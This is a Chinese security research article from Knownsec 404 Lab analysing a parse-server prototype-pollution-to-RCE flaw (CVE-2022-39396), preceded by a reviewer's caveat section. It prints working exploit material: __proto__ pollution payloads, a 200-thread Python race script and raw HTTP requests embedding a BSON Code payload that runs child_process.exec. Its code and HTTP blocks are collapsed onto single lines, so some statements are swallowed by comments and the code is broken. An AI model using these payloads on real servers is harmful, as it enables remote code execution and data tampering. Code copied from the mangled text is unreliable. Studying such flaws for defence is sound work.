## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：例mongodb3.6.11、bson1.x；声称bson&lt;=4.1.0可eval、Parse5.1.0换依赖后不可链，未给主CVE精确修复矩阵

代码与实验材料：完整变量回溯及Code上传、FileCoder污染逻辑；代码/HTTP被压成单行、200线程800任务会污染全进程和改数据库

来源证据范围：404原创署名，参考资料多为空占位，仅Mongo NODE4711直链

- **适用与权限边界（1）**：认证/配置/版本边界需明确；依据：需有效ApplicationId、GridFS、允许创建更新数据；修复绕过另需MasterKey，与原入口权限不同。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **实验改动边界（2）**：代码和报文转录破坏；依据：JavaScript//注释与代码同一行会吞后文、Python def/with和所有HTTP头粘连。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **操作与副作用边界（3）**：副作用与成功证据不足；依据：用服务器报错推定污染，800次并发可能DoS；持久metadata/对象需清理，原型状态跨请求。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  原创Paper | parse-server 从原型污染到 RCE 漏洞(CVE-2022-39396) 分析   
原创 404实验室  知道创宇404实验室   2023-03-31 16:51  
  
  
  
作者：billion@知道创宇404实验室日期：2023年3月31日  
  
parse-server公布了一个原型污染的RCE漏洞，看起来同mongodb有关联，so跟进&&分析一下。  
  
**1、BSON潜在问题**  
  
  
参考资料  
  
parse-server使用的mongodb依赖包版本是3.6.11，在node-mongodb-drive <= 3.7.3  
 版本时，使用1.x版本的bson依赖处理数据。  
  
根据BSON文档的介绍，存在一种Code类型，可以在反序列化时被执行  
  
  
  
跟进BSON的序列化过程  
```
      } else if (value['_bsontype'] === 'Code') {        index = serializeCode(          buffer,          key,          value,          index,          checkKeys,          depth,          serializeFunctions,          ignoreUndefined        );
```  
  
当对象的_bsontype  
键为Code  
时，就会被判断为Code类型，后面就会调用serializeCode函数进行序列化。  
  
在反序列化时，遇到Code类型，会进行eval操作  
```
var isolateEval = function(functionString) {  // Contains the value we are going to set  var value = null;  // Eval the function  eval('value = ' + functionString);  return value;};
```  
  
根据官方的文档，可以了解到这本身就是bson内置的功能，不过需要打开evalFunctions参数  
  
翻翻源码可以看到  
```
var deserializeObject = function(buffer, index, options, isArray) {  var evalFunctions = options['evalFunctions'] == null ? false : options['evalFunctions'];  var cacheFunctions = options['cacheFunctions'] == null ? false : options['cacheFunctions'];  var cacheFunctionsCrc32 =    options['cacheFunctionsCrc32'] == null ? false : options['cacheFunctionsCrc32'];
```  
  
evalFunctions  
参数默认情况下是未定义的，所以可以用原型污染来利用，该特性可以一直利用到bson <= 4.1.0  
  
**2、Code上传点**  
  
  
参考资料  
  
mongodb在处理文件时，采用了一种叫  
GridFS  
的东西  
  
  
  
看图大致可以了解到GridFS在存储文件时，把元数据(metadata)放到fs.files  
表，把文件内容放到fs.chunks  
表  
  
跟进parse-server的源码，可以找到处理metadata的过程  
  
node_modules/parse-server/lib/Routers/FilesRouter.js  
  
  
  
node_modules/parse-server/lib/Adapters/Files/GridFSBucketAdapter.js  
  
  
  
输入进来的metadata被直接传入到了数据库中，并没有进行过滤  
  
在测试的时候，发现metadata并没有保存到数据库中  
  
  
  
排查了一下middleware，可以找到以下验证  
  
node_modules/parse-server/lib/middlewares.js  
  
只有当fileViaJSON=true  
时，才会把fileData拷贝过去  
```
  if (fileViaJSON) {    req.fileData = req.body.fileData; // We need to repopulate req.body with a buffer    var base64 = req.body.base64;    req.body = Buffer.from(base64, 'base64');  }
```  
  
回溯一下  
```
  var fileViaJSON = false;  if (!info.appId || !_cache.default.get(info.appId)) {    // See if we can find the app id on the body.    if (req.body instanceof Buffer) {      try {        req.body = JSON.parse(req.body);      } catch (e) {        return invalidRequest(req, res);      }      fileViaJSON = true;    }
```  
  
当info.appId没有设置的话，就会进入if，fileViaJSON就被设置为true；或者是缓存中没有info.appId的信息  
```
function handleParseHeaders(req, res, next) {  var mount = getMountForRequest(req);  var info = {    appId: req.get('X-Parse-Application-Id'),
```  
  
向上翻翻代码，就可以看到appId的赋值  
  
后面还会有一处校验  
```
if (req.body && req.body._ApplicationId && _cache.default.get(req.body._ApplicationId) && (!info.masterKey || _cache.default.get(req.body._ApplicationId).masterKey === info.masterKey)) {      info.appId = req.body._ApplicationId;      info.javascriptKey = req.body._JavaScriptKey || '';    } else {      return invalidRequest(req, res);    }
```  
  
这一步需要保证_ApplicationId  
是正确的appId，否则就退出了  
  
所以认证这里有两种构造方式  
  
No.1  
  
让请求头中的X-Parse-Application-Id  
是一个不存在的appid，然后修改body中的_ApplicationId  
是正确的appid  
  
  
  
在fs.files表中也能够看到上传的metadata信息  
  
  
  
现在Code类型已经上传了，所以在找到一处原型污染，就可以RCE了  
  
No.2  
  
不设置X-Parse-Application-Id  
请求头  
  
  
  
结果  
  
  
  
**3、原型污染**  
  
  
参考资料  
  
根据官方公告，应该在mongo目录下有原型污染，大致上过了一遍代码，感觉下面这一部分可能有  
```
  for (var restKey in restUpdate) {    if (restUpdate[restKey] && restUpdate[restKey].__type === 'Relation') {      continue;    }    var out = transformKeyValueForUpdate(className, restKey, restUpdate[restKey], parseFormatSchema); // If the output value is an object with any $ keys, it's an    // operator that needs to be lifted onto the top level update    // object.    if (typeof out.value === 'object' && out.value !== null && out.value.__op) {      mongoUpdate[out.value.__op] = mongoUpdate[out.value.__op] || {};      mongoUpdate[out.value.__op][out.key] = out.value.arg;    } else {      mongoUpdate['$set'] = mongoUpdate['$set'] || {};      mongoUpdate['$set'][out.key] = out.value;    }  }
```  
  
如果能控制out.value.__op  
 out.key  
 out.value.arg  
，那就可以污染原型的evalFunctions  
了  
  
回溯变量，跟进transformKeyValueForUpdate()  
函数  
```
const transformKeyValueForUpdate = (className, restKey, restValue, parseFormatSchema) => {  // Check if the schema is known since it's a built-in field.  var key = restKey;  var timeField = false;  switch (key) {    case 'objectId':    case '_id':      if (['_GlobalConfig', '_GraphQLConfig'].includes(className)) {        return {          key: key,          value: parseInt(restValue)        };      }      key = '_id';      break;    case 'createdAt':    case '_created_at':      key = '_created_at';      timeField = true;      break;    case 'updatedAt':    case '_updated_at':      key = '_updated_at';      timeField = true;      break;    case 'sessionToken':    case '_session_token':      key = '_session_token';      break;    case 'expiresAt':    case '_expiresAt':      key = 'expiresAt';      timeField = true;      break;........    case '_rperm':    case '_wperm':      return {        key: key,        value: restValue      };......  }
```  
  
返回值大都是{key, value}  
的形式，如果key是case中的任一个，那必然不可能返回__proto__  
，继续看后面的部分  
```
if (parseFormatSchema.fields[key] && parseFormatSchema.fields[key].type === 'Pointer' || !parseFormatSchema.fields[key] && restValue && restValue.__type == 'Pointer') {    key = '_p_' + key;  } // Handle atomic values  var value = transformTopLevelAtom(restValue);  if (value !== CannotTransform) {    if (timeField && typeof value === 'string') {      value = new Date(value);    }    if (restKey.indexOf('.') > 0) {      return {        key,        value: restValue      };    }    return {//这里      key,      value    };  } // Handle arrays
```  
  
在最终污染的位置restKey  
应该是evalFunctions  
，所以不会进入if (restKey.indexOf('.') > 0) {  
这个分支，可以通过第二个return  
返回key和value  
  
跟进transformTopLevelAtom()  
函数  
```
function transformTopLevelAtom(atom, field) {  switch (typeof atom) {.......    case 'object':      if (atom instanceof Date) {        // Technically dates are not rest format, but, it seems pretty        // clear what they should be transformed to, so let's just do it.        return atom;      }      if (atom === null) {        return atom;      } // TODO: check validity harder for the __type-defined types      if (atom.__type == 'Pointer') {        return `${atom.className}$${atom.objectId}`;      }      if (DateCoder.isValidJSON(atom)) {        return DateCoder.JSONToDatabase(atom);      }      if (BytesCoder.isValidJSON(atom)) {        return BytesCoder.JSONToDatabase(atom);      }      if (GeoPointCoder.isValidJSON(atom)) {        return GeoPointCoder.JSONToDatabase(atom);      }      if (PolygonCoder.isValidJSON(atom)) {        return PolygonCoder.JSONToDatabase(atom);      }      if (FileCoder.isValidJSON(atom)) {        return FileCoder.JSONToDatabase(atom);      }      return CannotTransform;    default:      // I don't think typeof can ever let us get here      throw new Parse.Error(Parse.Error.INTERNAL_SERVER_ERROR, `really did not expect value: ${atom}`);  }}
```  
  
只需要让函数在前面的if  
中返回，就可以让value!==CannotTransform  
  
挑一个FileCoder  
```
var FileCoder = {  databaseToJSON(object) {    return {      __type: 'File',      name: object    };  },  isValidDatabaseObject(object) {    return typeof object === 'string';  },  JSONToDatabase(json) {    return json.name;  },  isValidJSON(value) {    return typeof value === 'object' && value !== null && value.__type === 'File';  }};
```  
  
汇总变量的变化，可以得到restUpdate  
的形式应该是下面这样  
```
{"evalFunctions":{    "__type":"File",    "name":{            "__op": "__proto__",        "arg": true    }    }}
```  
  
在找了好久之后，大概发现下面这样一条调用链  
```
node_modules/parse-server/lib/Adapters/Storage/Mongo/MongoTransform.js transformUpdate()node_modules/parse-server/lib/Adapters/Storage/Mongo/MongoStorageAdapter.js updateObjectsByQuery()node_modules/parse-server/lib/Controllers/DatabaseController.js update()node_modules/parse-server/lib/RestWrite.js  runBeforeSaveTrigger()node_modules/parse-server/lib/RestWrite.js  execute()node_modules/parse-server/lib/RestWrite.js  new RestWrite()node_modules/parse-server/lib/rest.js update()node_modules/parse-server/lib/Routers/ClassesRouter.js  handleUpdate()
```  
  
在update之前，需要先创建一条数据  
  
  
  
触发update  
  
  
  
修改成restUpdate  
，debug看看流程对不对  
  
  
  
跟进代码可以发现，parse-server会对修改之后的类型做判断，上传的是一个Object类型，修改的是File类型，两者不匹配，所以就退出了。并且update包的类型是根据__type  
和name  
来的  
  
  
  
不是很好绕过。只能在create包上做修改  
  
通过调试代码发现，create包也会经过同样的类型判断过程，所以只需要把update包，复制一份到create中就好了  
  
create包  
  
  
  
update包  
  
  
  
服务端报错信息，应该可以确定，evalFunctions已经污染上了  
  
  
  
为了保证不会因为服务端的报错，导致异常退出，这里用条件竞争来做  
```
def triger_unserialize(item):    if item !=400:        requests.get(            url = file_path        )    r3 = requests.put(        url = url + f"/parse/classes/{path}/{objectId}",        data = json.dumps({            "evalFunctions":{                "__type":"File",                "name":{                    "__op":"__proto__",                    "arg":"1"                }            },            "cheatMode":"false"        }),        headers = {            "X-Parse-Application-Id":f"{appid}",            'Content-Type': 'application/json'        }    )with concurrent.futures.ThreadPoolExecutor(max_workers=200) as executor:    futures = [executor.submit(triger_unserialize, item) for item in range(0,800)]
```  
  
  
**4、修复绕过**  
  
  
参考资料  
  
官方的修复措施是对metadata进行过滤，但是没有修复原型污染，所以，找一个新的可以上传Code类型的位置，就可以RCE  
  
Hooks  
  
创建hook函数  
```
POST /parse/hooks/triggers HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36Accept: */*Content-Type: application/jsonContent-Length: 254Connection: close{"_ApplicationId":"123","className":"cname","triggerName":"tname","url":{"_bsontype":"Code","code":"delete ({}).__proto__.evalFunctions; require(`child_process`).exec('touch /tmp/123.txt')"},"functionName":"f34","_MasterKey":"123456"}
```  
  
触发  
```
GET /parse/hooks/functions/f34 HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36Accept: */*Content-Length: 52Content-Type: application/jsonConnection: close{"_ApplicationId":"123","_MasterKey":"123456"}
```  
  
这种方式得知道MasterKey才能利用，还是有些限制的  
  
在最新版(6.0.0)测试的时候发现，parse-server在5.1.0版本时，就已经把 node-mongodb-drive的版本换成了4.3.1  
  
  
  
bson的版本也随之变成了4.6，就没有办法执行eval了  
  
